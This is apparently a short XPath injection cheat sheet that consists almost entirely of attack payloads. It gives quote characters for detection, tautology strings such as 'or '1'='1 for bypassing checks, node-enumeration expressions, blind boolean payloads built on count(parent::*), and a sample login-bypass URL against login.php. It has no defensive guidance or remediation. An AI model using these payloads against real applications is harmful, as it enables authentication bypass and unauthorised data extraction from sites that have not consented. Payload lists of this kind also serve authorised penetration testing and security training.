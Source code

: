 ## Detection ##

' (Single Quote)
" (Double Quote)


## Exploitation ##

'or '1'='1
'or 1=1 or '='

]|*|user[@role='admin

"NODENAME"  (Return all children of node)
 
"//NODENAME" (Return all elements in the document)

"NODeNAME//SUBNODENAME"  (return all SUBNODE under NODE element)

"//NODENAME/[NAME="VALUE"     (value = admin)

count(//user/child::node()    (return the number of nodes)

Injecting until the error found ...

‘ or count (parent::*[position()=1])=0 or ‘a’=’b
‘ or count (parent::*[position()=1])>0 or ‘a’=’b
1  or count (parent::*[position()=1])=0
1  or count (parent::*[position()=1])>0 


## Example ##

http://site.com/login.php?username=admin' or 1=1 or ''='   (Login Bypass) 


